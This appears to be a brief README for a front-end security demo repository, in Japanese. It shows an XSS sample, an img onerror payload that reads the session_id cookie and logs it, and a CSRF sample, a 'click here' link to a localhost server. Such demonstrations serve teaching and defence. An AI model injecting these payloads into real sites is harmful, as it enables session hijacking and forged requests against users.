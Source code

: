 # front-security-sample

### XSS攻撃サンプル
```html
<img src="x" onerror="console.log(`セッションID: ${document.cookie.split(';').map(s => s.trim()).find(s => s.startsWith('session_id='))}`)" />
```

### CSRF攻撃サンプル
<a href="http://localhost:3002">ここをクリック！</a>